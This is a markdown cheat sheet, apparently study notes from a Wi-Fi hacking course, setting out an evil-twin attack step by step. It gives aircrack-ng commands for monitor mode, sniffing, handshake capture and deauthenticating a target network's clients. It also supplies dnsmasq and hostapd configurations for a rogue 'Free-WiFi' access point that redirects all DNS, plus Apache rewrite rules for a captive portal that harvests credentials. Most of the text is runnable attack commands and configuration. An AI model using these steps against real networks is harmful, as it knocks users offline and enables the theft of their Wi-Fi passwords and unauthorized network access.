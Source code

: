 # HacKingWiFi
## HacKingWiFi 
### Algorithm Commands to HacKing WiFi 

# [1] Choosing Wireless Adapter / Get Interface:
  - [1.1] Cheking for Wireless Network interface: `iwconfig`  
  - [1.2] Cheking for Wireless Network interface: `ifconfig`

---

# [2] Start Monitoring Mode & Checking Injection Option 
  - [2.1] Starting Monitor mode: `airmon-ng start $INTERFACE`
  - [2.2] Monitoring: `aireplay-ng --test $INTERFACE`

---
  
# [3] Scan Wireless’s Area
  - [3.1] Sniff Networks Area Information : `airodump-ng $INTERFACE`
  - [3.2] Start Capturing Packets: `airodump-ng --bssid $BSSID -c $CHANNEL_NUMBER -w $OUTPUT_NAME $INTERFACE`
  - [3.3] Inject Packets into Wireless Network: `aireplay-ng --deauth 10 -a $MAC_TARGET $INTERFACE`

---

# [4] Analysis Captured Files With WireShark:
  - [4.1] Start WireShark: `wireshark $OUTPUT_NAME.cap`
    - Looking for Authentication Files

---

# [5] Set Up Access point:
  - [5.1] Create dnsmasq Configuration files: `nano dnsmasq.conf`
```SHELL
#Set the wireless interface
interface=wlan0

#Set the IP range for the clients
dhcp-range=192.168.1.2,192.168.1.250,12h

#Set the gateway IP address
dhcp-option=3,192.168.1.1

#Set DNS server address
dhcp-option=6,192.168.1.1

#Redirect all requests to 192.168.1.1
address=/#/192.168.1.1
```
  - [5.2] Create hostpad Configuration file: `nano hostapd.conf` 
```SHELL
#Set wireless interface
interface=wlan0

#Set network name
ssid=Free-WiFi

#Set channel
channel=11

#Set driver
driver=nl80211
```
  - [5.3] Run Commands 1: `dnsmasq -C /directory_to_dnsmasq.conf`
  - [5.4] Run Commands 2: `hostapd /directory_to_hostapd.conf -B`
  - [5.5] `airbase-ng -e $WIRELESS_NETWORK -c $CHANNEL $INTERFACE` 

---

# [6] Setting up Captive Portal
  - [6.1] Download and Move Portal files to `/var/www/html`
  - [6.2] Edit `nano /etc/apache2/sites-enabled/000-default.conf` & Add to end of it:
```shell

<Directory "/var/www/html">
RewriteEngine On
RewriteBase /
RewriteCond %{HTTP_HOST} ^www\.(.*)$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]

RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>

```
  - [6.3] Start Apache2 Server: `sudo service apache2 start`
 
 ---
 
 - [WiFi Hacking using Evil Twin Attacks and Captive Portals](https://github.com/Anlominus/Studies/tree/main/Udemy/IT%20%26%20Software/Network%20%26%20Security/Security%20HacKing/WiFi%20Hacking%20using%20Evil%20Twin%20Attacks%20and%20Captive%20Portals)
